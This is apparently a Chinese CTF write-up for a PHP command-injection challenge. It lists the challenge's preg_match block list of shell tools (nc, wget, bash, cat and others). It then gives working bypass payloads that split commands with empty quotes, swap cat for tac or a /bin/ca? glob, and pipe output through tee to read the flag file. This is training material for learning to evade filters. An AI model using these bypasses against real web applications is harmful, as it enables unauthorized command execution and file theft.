




分析源码：

get传参url

preg_match过滤

Bash

Nc

Wget

Ping

Ls

Cat

More

Less

Phpinfo

Base64

Echo

Php

Python

Mv

Cp

La

\-

\>

<

%

$

 

可以执行命令，但是无回显

可以利用tee配合管道符绕过

 

Tee是Linux命令，用于显示程序的输出并将其复制到一个文件中。

 

 

 

没有过滤 ' 

可以利用其绕过ls cat la

构造payload

?url=l''s / |tee 1.txt

 

查看1.txt

 

读取flllllaaaaaaggggggg

构造payload:

 

?url=tac /flllll''aaaaaaggggggg|tee 5.txt

 

查看5.txt

 

 

 

也可以使用

?url=/bin/ca? /flllll''aaaaaaggggggg|tee 2.txt

 

其中

/bin/ca?表示匹配/bin目录下的cat命令

 